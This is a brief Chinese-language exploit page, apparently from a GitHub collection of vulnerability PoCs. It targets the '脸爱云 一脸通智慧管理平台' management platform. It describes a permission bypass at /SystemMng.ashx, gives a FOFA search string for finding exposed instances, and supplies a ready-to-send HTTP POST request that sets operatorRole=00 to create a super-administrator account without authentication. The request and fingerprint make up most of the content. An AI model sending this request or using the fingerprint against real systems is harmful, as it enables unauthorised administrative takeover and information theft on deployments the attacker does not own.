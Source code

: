 ## 脸爱云 一脸通智慧管理平台任意用户添加漏洞

脸爱云一脸通智慧管理平台是一套功能强大,运行稳定、操作简单方便、用户界面美观,轻松统计数据的一脸通系统。无需安装，只需在后台配置即可在浏览器登录。该管理平台/SystemMng.ashx接口处存在权限绕过漏洞,可通过输入00操纵参数operatorRole，导致特权管理不当，未经身份认证攻击者可以通过此漏洞创建超级管理员账户，造成信息泄露和后台接管。


## fofa
```
"欢迎使用脸爱云 一脸通智慧管理平台"
```

## poc
```
POST /SystemMng.ashx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/top.html
Connection: close
Cookie: ASP.NET_SessionId=whnrkuaqbz0lyv1fbwtzf23y
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 175

operatorName=test1&operatorPwd=123456&operpassword=123456&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators
```
![image](../../images/8ae7871e-8eed-4986-a9f8-ad4168b15e2d.png)

![image](../../images/ab201a23-b27a-40d5-9f80-46e1218f238c.png)
